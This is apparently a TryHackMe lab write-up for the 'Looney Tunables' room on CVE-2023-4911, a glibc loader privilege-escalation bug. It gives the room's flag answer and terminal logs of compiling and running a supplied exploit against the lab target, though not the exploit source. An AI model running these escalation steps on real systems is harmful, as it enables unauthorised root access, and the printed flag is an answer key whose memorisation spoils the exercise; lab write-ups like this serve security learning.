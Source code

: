 <p align="center">November 11, 2024</p>
<p align="center">Hey there, fellow lifelong learner! I´m <a href="https://www.linkedin.com/in/rosanafssantos/">Rosana</a>, and I’m genuinely excited to join you on this adventure.<br>
It´s part of my $$\textcolor{#FF69B4}{\textbf{189}}$$-day-streak in  <a href="https://tryhackme.com/r/hacktivities">TryHackMe</a>.</p>

<h1 align="center"> $$\textcolor{#3bd62d}{\textnormal{ Looney Tunables }}$$ </h1>
<p align="center">CVE-2023-4911: That's all Sec-Folks!</p>
<p align="center">Access this 🆓 TryHackMe CTF Room clicking <a href="https://tryhackme.com/r/room/looneytunes">GitLab CVE-2023-7028</a>.</p>
<p align="center">
  <img height="150px" hspace="20" src="https://github.com/user-attachments/assets/2701eded-3213-4aa9-9919-720579b58a44"><br>
  <img height="150px" src="https://github.com/user-attachments/assets/684afecc-06b7-464c-abfe-eee8c72c461e">
</p>


<p align="center">Summary</p>

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; [1. Introduction](#1) &nbsp;&nbsp;&nbsp;&nbsp;▪️&nbsp;&nbsp;&nbsp;&nbsp; [2. Background Information](#2) &nbsp;&nbsp;&nbsp;&nbsp;▪️&nbsp;&nbsp;&nbsp;&nbsp; [3. Time to Analyze the Vulnerable Code!](#3) &nbsp;&nbsp;&nbsp;&nbsp;▪️&nbsp;&nbsp;&nbsp;&nbsp; [4. Detection and Mitigation](#4) &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
<br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;[5. Conclusions](#5) &nbsp;&nbsp;&nbsp;&nbsp;▪️&nbsp;&nbsp;&nbsp;&nbsp;  [6. Room Complete](#6) &nbsp;&nbsp;&nbsp;&nbsp;▪️&nbsp;&nbsp;&nbsp;&nbsp; [7. My Journey](#7)

<br>
<br>
<br>
<h2 align="center">Task 1. Introduction<a id='1'></a></h2>

<h3 align="left"> $$\textcolor{#f00c17}{\textnormal{Answer the question below}}$$ </h3>

> 1.1. <em>Click and continue learning!</em><br><a id='1.1'></a>
>> <code><strong>No answer needed</strong></code>

<br>

<h2 align="center">Task 2. Background Information<a id='2'></a></h2>


<h3 align="left"> $$\textcolor{#f00c17}{\textnormal{Answer the question below}}$$ </h3>

> 2.1. <em>Click and continue learning!</em><br><a id='2.1'></a>
>> <code><strong>No answer needed</strong></code>

<br>

<h2 align="center">Task 3. Time to Analyze the Vulnerable Code!<a id='3'></a></h2>


<h3 align="left"> $$\textcolor{#f00c17}{\textnormal{Answer the question below}}$$ </h3>

> 3.1. <em>Click and continue learning!</em><br><a id='3.1'></a>
>> <code><strong>No answer needed</strong></code>

<br>


<h2 align="center">Task 4. Exploitation<a id='4'></a></h2>


<h3 align="left"> $$\textcolor{#f00c17}{\textnormal{Answer the question below}}$$ </h3>

> 4.1. <em>Click and continue learning!</em><br><a id='4.1'></a>
>> <code><strong>No answer needed</strong></code>


<br>


<h2 align="center">Task 5. Try It Yourself!<a id='5'></a></h2>


<h3 align="left"> $$\textcolor{#f00c17}{\textnormal{Answer the question below}}$$ </h3>

> 5.1. <em></em>What's the value of the flag in /root/root.txt?<a id='5.1'></a>
>> <code><strong>THM{TH-TH-THATS-SECURE-FOLKS!}</strong></code>

<br>

<pre><code>$root@[Attack_Box]:~# ssh nopriv@[Target]
The authenticity of host '[Target] (1[Target])' can't be established.
...
nopriv@1[Target]'s password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

...

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

Expanded Security Maintenance for Applications is not enabled.

56 updates can be applied immediately.
30 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
...
nopriv@looneytunes:~$ ls
exp.c  gen_libc.py
nopriv@looneytunes:~$ 
</code></pre>

<br>

<pre><code>nopriv@looneytunes:~$ ls
exp.c  gen_libc.py
nopriv@looneytunes:~$ ^C
nopriv@looneytunes:~$ readelf /usr/bin/man -p .interp

String dump of section '.interp':
  [     0]  /lib64/ld-linux-x86-64.so.2

nopriv@looneytunes:~$
</code></pre>

<br>

<pre><code>nopriv@looneytunes:~$ ldd /usr/bin/man
	linux-vdso.so.1 (0x00007fff21fea000)
	libmandb-2.10.2.so => /usr/lib/man-db/libmandb-2.10.2.so (0x00007fa38ecac000)
	libman-2.10.2.so => /usr/lib/man-db/libman-2.10.2.so (0x00007fa38ec7c000)
	libz.so.1 => /lib/x86_64-linux-gnu/libz.so.1 (0x00007fa38ec5a000)
	libpipeline.so.1 => /lib/x86_64-linux-gnu/libpipeline.so.1 (0x00007fa38ec4d000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fa38ea25000)
	libgdbm.so.6 => /lib/x86_64-linux-gnu/libgdbm.so.6 (0x00007fa38ea11000)
	libseccomp.so.2 => /lib/x86_64-linux-gnu/libseccomp.so.2 (0x00007fa38e9f1000)
	/lib64/ld-linux-x86-64.so.2 (0x00007fa38edd6000)
nopriv@looneytunes:~$
</code></pre>

<br>


<pre><code>nopriv@looneytunes:~$ ldd /usr/bin/man
	linux-vdso.so.1 (0x00007fff21fea000)
	libmandb-2.10.2.so => /usr/lib/man-db/libmandb-2.10.2.so (0x00007fa38ecac000)
	libman-2.10.2.so => /usr/lib/man-db/libman-2.10.2.so (0x00007fa38ec7c000)
	libz.so.1 => /lib/x86_64-linux-gnu/libz.so.1 (0x00007fa38ec5a000)
	libpipeline.so.1 => /lib/x86_64-linux-gnu/libpipeline.so.1 (0x00007fa38ec4d000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fa38ea25000)
	libgdbm.so.6 => /lib/x86_64-linux-gnu/libgdbm.so.6 (0x00007fa38ea11000)
	libseccomp.so.2 => /lib/x86_64-linux-gnu/libseccomp.so.2 (0x00007fa38e9f1000)
	/lib64/ld-linux-x86-64.so.2 (0x00007fa38edd6000)
nopriv@looneytunes:~$
</code></pre>

<br>

<pre><code>nopriv@looneytunes:~$ ls
exp.c  gen_libc.py
nopriv@looneytunes:~$ gcc -o exploit exp.c
nopriv@looneytunes:~$ ls
exp  exp.c  exploit  gen_libc.py
nopriv@looneytunes:~$ chmod +x exploit
nopriv@looneytunes:~$ ./exploit
try 100
try 200
try 300
try 400
try 500
try 600
try 700
try 800
try 900
try 1000
try 1100
try 1200
try 1300
try 1400
try 1500
try 1600
try 1700
try 1800
try 1900
try 2000
try 2100


	
</code></pre>

<br>


<h2 align="center">Task 6. Conclusion<a id='5'></a></h2>


<h3 align="left"> $$\textcolor{#f00c17}{\textnormal{Answer the question below}}$$ </h3>

> 6.1. <em></em>What's the value of the flag in /root/root.txt?<a id='6.1'></a>
>> <code><strong>No answer needed}</strong></code>

